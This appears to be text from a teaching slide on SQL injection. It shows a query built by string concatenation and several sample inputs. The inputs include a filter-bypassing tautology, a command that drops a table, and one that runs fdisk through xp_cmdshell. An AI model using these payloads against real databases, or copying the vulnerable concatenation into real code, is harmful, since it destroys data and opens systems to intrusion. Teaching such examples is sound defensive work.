

sqlString = "SELECT HasShipped FROM"
	+ " OrderDetail WHERE OrderID ='"
	+ ID + "'";

ALFKI1001
ALFKI1001' or 1=1 --
ALFKI1001'; DROP TABLE OrderDetail --
ALFKI1001'; exec xp_cmdshell('fdisk.exe') --